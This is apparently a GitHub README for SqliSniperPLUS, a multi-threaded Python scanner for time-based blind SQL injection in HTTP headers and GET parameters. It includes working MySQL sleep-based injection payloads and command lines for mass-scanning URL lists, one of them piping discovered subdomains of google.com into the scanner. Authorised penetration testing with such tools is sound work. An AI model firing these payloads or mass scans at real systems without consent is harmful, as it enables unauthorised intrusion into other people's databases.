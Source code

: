 <p align="center">
<a href="https://opensource.org/licenses/MIT"><img src="https://img.shields.io/badge/license-MIT-_red.svg"></a>
</p>

<p align="center">
  <a href="#installation">Installation</a> •
  <a href="#usage">Usage</a> •
</p>

**Based on** <a href="https://github.com/danialhalo/SqliSniper">SqliSniper</a> •  <br> 
**SqliSniperPLUS** is a robust Python tool designed to detect time-based blind SQL injections in HTTP request headers and GET parameters. It enhances the security assessment process by rapidly scanning and identifying potential vulnerabilities using multi-threaded, ensuring speed and efficiency. Unlike other scanners, SqliSniperPLUS is designed to eliminates false positives through and send alerts upon detection, with the built-in Discord notification functionality.

## Key Features
- **Time-Based Blind SQL Injection Detection:** Pinpoints potential SQL injection vulnerabilities in HTTP headers.
- **Multi-Threaded Scanning:** Offers faster scanning capabilities through concurrent processing.
- **Discord Notifications:** Sends alerts via Discord webhook for detected vulnerabilities.
- **False Positive Checks:** Implements response time analysis to differentiate between true positives and false alarms.
- **Custom Payload and Headers Support:** Allows users to define custom payloads and headers for targeted scanning.


## Installation
```
git clone https://github.com/highchoice/SqliSniperPLUS.git
cd SqliSniperPLUS
chmod +x SqliSniperPlus.py
pip3 install -r requirements.txt
```
# Usage

This will display help for the tool. Here are all the options it supports.
```
ubuntu:~/SqliSniperPLUS$ ./SqliSniperPlus.py -h

usage: SqliSniperPlus.py [-h] [-u URL] [-r URLS_FILE] [-p] [--proxy PROXY] [--payload PAYLOAD] [--single-payload SINGLE_PAYLOAD] [--discord DISCORD] [--headers HEADERS]
                     [--threads THREADS] [--getparams]

Detect SQL injection by sending malicious queries

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Single URL for the target
  -r URLS_FILE, --urls_file URLS_FILE
                        File containing a list of URLs
  -p, --pipeline        Read from pipeline
  --proxy PROXY         Proxy for intercepting requests (e.g., http://127.0.0.1:8080)
  --payload PAYLOAD     File containing malicious payloads (default is payloads.txt)
  --single-payload SINGLE_PAYLOAD
                        Single payload for testing
  --discord DISCORD     Discord Webhook URL
  --headers HEADERS     File containing headers (default is headers.txt)
  --threads THREADS     Number of threads
  --getparams           Test only GET parameters for SQL injection | without this switch just Headers will be tested!
```

# Running SqliSniperPLUS
### Single Url Scan - Headers only
The url can be provided with `-u flag` for single site scan
```
./SqliSniperPlus.py -u http://example.com
```
### Single Url Scan GET params only
The url can be provided with `-u flag` for single site scan with `--getparams` to scan onyla GET parameters
```
./SqliSniperPlus.py -u http://example.com/param1=xxx&param2=123 --getparams
```
### File Input
The `-r flag` allows SqliSniperPlUS to read a file containing multiple URLs for simultaneous scanning.
```
./SqliSniperPlus.py -r url.txt
```
### piping URLs
The SqliSniperPlUS can also worked with the pipeline input with `-p flag`
```
cat url.txt | ./SqliSniperPlus.py -p
```
The pipeline feature facilitates seamless integration with other tools. For instance, you can utilize tools like subfinder and httpx, and then pipe their output to SqliSniperPlUS for mass scanning.
```
subfinder -silent -d google.com | sort -u | httpx -silent | ./SqliSniperPlus.py -p
```
### Scanning with custom payloads  
By default the SqliSniperPlUS use the payloads.txt file. However `--payload flag` can be used for providing custom payloads file.
```
./SqliSniperPlus.py -u http://example.com --payload mssql_payloads.txt
```
While using the custom payloads file, ensure that you substitute the sleep time with `%__TIME_OUT__%`. SqliSniperPlUS dynamically adjusts the sleep time iteratively to mitigate potential false positives.
The payloads file should look like this.
```
ubuntu:~/SqliSniperPLUS$ cat payloads.txt 
0\"XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR\"Z
"0"XOR(if(now()=sysdate()%2Csleep(%__TIME_OUT__%)%2C0))XOR"Z"
0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z
```
### Scanning with Single Payloads
If you want to only test with the single payload `--single-payload flag` can be used. Make sure to replace the sleep time with `%__TIME_OUT__%`
```
./SqliSniperPlus.py -r url.txt --single-payload "0'XOR(if(now()=sysdate(),sleep(%__TIME_OUT__%),0))XOR'Z"
```
### Scanning Custom Header 
Headers are saved in the file headers.txt for scanning custom header save the custom HTTP Request Header in headers.txt file. 
```
ubuntu:~/SqliSniperPLUS$ cat headers.txt 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
X-Forwarded-For: 127.0.0.1
```
### Scanning GET Parameters 
GET parameters are parsed from URL and tested one by one 
```
ubuntu:~/SqliSniperPLUS$ ./SqliSniperPlus.py -r url.txt --getparams
```
### Scanning GET Parameters with papline 
Automate testing list of urls with other tools 
```
ubuntu:~/SqliSniperPLUS$ cat url.txt | katana -f qurl -silent | sort -u | python3 sqlisniperNEWv4.py -p --proxy http://10.10.16.1:9090 --threads 50 --getparams
```
### Sending Discord Alert Notifications
SqliSniperPlUS also offers Discord alert notifications, enhancing its functionality by providing real-time alerts through Discord webhooks. This feature proves invaluable during large-scale scans, allowing prompt notifications upon detection.
```
./SqliSniperPlus.py -r url.txt --discord <web_hookurl>
```
### Multi-Threading 
Threads can be defined with `--threads flag`
```
 ./SqliSniperPlus.py -r url.txt --threads 10
```
**Note:** It is crucial to consider that **employing a higher number of threads might lead to potential false positives or overlooking valid issues**. Due to the nature of time-based SQL injection it is recommended to use lower thread for more accurate detection.

---

<table>
<tr>
<td>

## Legal Disclaimer

Usage of this tool for attacking targets without prior mutual consent is strictly prohibited. It is the end user's responsibility to obey all applicable local, state, and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program..

</td>
</tr>
</table>

---

# Contributing
Contributions to SqliSniperPlUS are always welcome. Whether it's feature enhancements, bug fixes, or documentation improvements, every bit of help is appreciated.


